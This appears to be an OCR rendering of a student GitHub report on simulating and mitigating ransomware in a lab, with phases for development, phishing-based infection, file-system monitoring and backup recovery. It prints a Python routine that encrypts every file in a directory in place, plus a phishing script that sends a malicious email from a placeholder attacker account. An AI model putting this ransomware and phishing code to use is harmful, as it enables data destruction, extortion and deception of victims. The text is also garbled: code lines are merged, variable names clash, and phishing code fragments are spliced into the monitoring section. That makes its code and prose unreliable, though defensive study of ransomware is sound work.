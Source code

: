 #	INTRODUCTION
It has prompted the cybersecurity community to continue to think of ways on how to address the menace of ransomware in a relatively short time frame. These malicious apps, which chops victims’ data and request ransom for it return, can have a great ramification to the human, the companies, and the
 
critical infrastructure globally. Nowadays, more urgent defense measures, consist of primarily, providing better prevention, detection, and response mechanisms are needed than at any time. To close this gap, this project focuses on the detailed investigation of ransomware behaviors and countermeasures, inside a properly secured and well-managed testbed.
In order to collect important data and to know the real effect of the disruption, we designed and executed our research in a sensor mimic environment, which is safe and prevents real world harm. Such a method Our experiments yielded wonderful insights on the strengths and weaknesses current ransomware mitigation methods towards removing this signifi- cant threat to all computer users. Our research has highlighted that the operation of the current detection mechanisms are effective in identifying ransomware activities but there are good chances at the same time to improve the systems, which take less time of response and error rate. For the third point, our experiences have shown that having fall over systems as well as having those tested from time to time is paramount the recovery process.
These results are presented and elaborated in the corre- sponding sections in the body of this report. The make an invaluable contribution of their experience into the sphere of cybersecurity, thus favor the creation of more durable protec- tion against the constantly growing problem of ransomware
#	APPROACH
Our project aimed to comprehensively study the lifecycle of a ransomware attack within a controlled and secure en- vironment. To achieve this, we structured our approach into distinct phases, each crucial for understanding, simulating, de- tecting, and mitigating ransomware threats effectively. Below, we provide a detailed breakdown of each phase, along with architecture diagrams and code snippets where applicable.
A.	Ransomware Development
In the initial phase of our project, we focused on developing a custom ransomware prototype. Our goal was to create a functional ransomware script capable of encrypting files within a specified directory. The script was implemented in Python, leveraging cryptographic libraries to ensure secure encryption and decryption processes. Figure 1 illustrates the architecture of our ransomware development phase.
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/034e0114-74e2-40e2-8375-3fa0a770c966)

Fig. 1. Architecture of Ransomware Development Phase

The Python code snippet below demonstrates the encryption function used in our ransomware script:
\small import os
from cryptography.fernet import Fernet

def encrypt_files(directory, key): cipher_suite = Fernet(key)
 
for root, _, files in os.walk(dir): for file in files:
file_path = os.path.join(root,file) with open(file_path,’rb’) as orig_file: original_data = original_file.read() encrypted_data = cipher_suite.enc(orig_data)
with open(file_path,’wb’)as enc_file: encrypted_file.write(encrypted_data)
This function encrypts all files within the specified directory using the AES encryption algorithm provided by the Cryptog- raphy library.
B.	Deployment and Infection
Once the ransomware prototype was developed, we simu- lated its deployment through various infection vectors, includ- ing phishing emails, compromised USB drives, and remote ex- ploits. Our approach involved crafting realistic attack scenarios within our controlled environment to observe how ransomware spreads and behaves. Figure 2 depicts the architecture of our deployment and infection phase.
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/7f2b3db3-3b8e-46b5-8af2-696d31319df2)

Fig. 2. Architecture of Deployment and Infection Phase

The following Python code snippet illustrates how we simu- lated a phishing email campaign to distribute the ransomware:
import smtplib
 
msg.attach(MIMEText(body, ’plain’))

server=smtplib.SMTP(’smtp.google.com’,587) server.starttls() server.login(’attacker@example.com’, ’password’) server.sendmail(’attacker@example.com’, ’victim@example.com’, msg.as_string()) server.quit()

send_phishing_email()
This code snippet demonstrates how we sent a malicious email with an infected attachment to simulate a phishing attack.
C.	Monitoring and Detection
In the monitoring and detection phase, we implemented a robust monitoring system to detect ransomware activity within our environment. This involved real-time monitoring of file system changes, network traffic analysis, and anomaly detection techniques. Figure 3 showcases the architecture of our monitoring and detection phase.
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/27ed2e33-a33e-4b8c-8cb1-9de6617b9411)

Fig. 3. Architecture of Monitoring and Detection Phase

The following Python code snippet demonstrates how we monitored file system changes using the ‘watchdog‘ library:
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler
 
from email.mime.multipart import MIMEMultipart
 
from email.mime.text import MIMEText

def send_phishing_email(): msg = MIMEMultipart()
msg[’From’] = ’attacker@example.com’ msg[’To’] = ’victim@example.com’ msg[’Subject’] = ’’
body = ""
 
class FileChangeHandler(FileSystemEventHandler): def on_modified(self, event):
print(f’File {event.src_path} has been mod

def start_file_monitoring(directory): event_handler = FileChangeHandler() observer = Observer() observer.schedule
 
(event_handler, directory,recursive=Tru observer.start()
This code snippet sets up a file system event handler to monitor modifications within a specified directory.
D.	Mitigation and Recovery
Upon detecting ransomware activity, our mitigation and re- covery phase focused on isolating infected systems, containing the spread of ransomware, and initiating recovery procedures from backups. This phase aimed to minimize the impact of ransomware attacks and restore affected systems to a secure state. Figure 4 illustrates the architecture of our mitigation and recovery phase.
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/a069a7ce-13c1-49e2-84c4-119aa28a0632)

Fig. 4. Architecture of Mitigation and Recovery Phase

Although no specific code snippet is provided for this phase, our mitigation and recovery procedures involved automated responses triggered by ransomware detection alerts, including isolating infected systems from the network and initiating file restoration processes from secure backups.
article [utf8]inputenc graphicx caption
#	RESULTS
A.	Ransomware Deployment
The ransomware tool was successfully deployed, encrypting all targeted files within the ”critical” directory, as evidenced by the screenshots and system logs.

![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/f3d37576-0622-4d1c-8c01-f939e388e9e6)

Fig. 5. Encrypted File Structure
 

 
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/894c5c1e-fad0-49dd-b216-9169f84eeece)

Fig. 6. Encryption Process Logs

![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/940b7146-b3a9-4f3c-8b41-cb0bf29fd1dd)

Fig. 7. System Load During Encryption


B.	Infection Mechanism
Our simulated phishing email effectively delivered the ran- somware executable, leading to a high rate of infection among the test subjects.

![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/0149d7d6-633c-403d-8422-e40d9868372f)

Fig. 8. Phishing Email Simulation


C.	Monitoring and Detection
The monitoring system demonstrated a robust ability to detect ransomware activities promptly, with minimal false positives.
 
 

 


![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/e0542382-98a2-41ac-ada7-127732aa79a0)

Fig. 9. Infection Rate Statistics
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/4908914d-4125-48ed-9dde-bc1a194b6a3d)
 
Fig. 13. Log Entries of Detected Activity


D.	Mitigation and Recovery
The response to detection was swiftly executed, isolating the infected system and restoring the integrity of the data from backups.
 











![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/832c35ed-a3aa-4c5d-9987-56665db63164)

Fig. 10. System Alerts on Infection

![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/88109ea8-725a-4785-b279-61d24f897d4f)

Fig. 11. Detection Time Line Graph

 
![image](https://github.com/KondaraoLagadapati/A-Study-Of-Ransomware-Attack-Mitigation-Virtualized-Environments/assets/148697986/21079043-8024-4be8-ae24-be5881c1aff8)

Fig. 12. Alert System Interface
 
#	CONCLUSION
The results indicate that our implementation effectively simulated the ransomware attack, with successful encryption, high infection rates, prompt detection, and efficient recovery

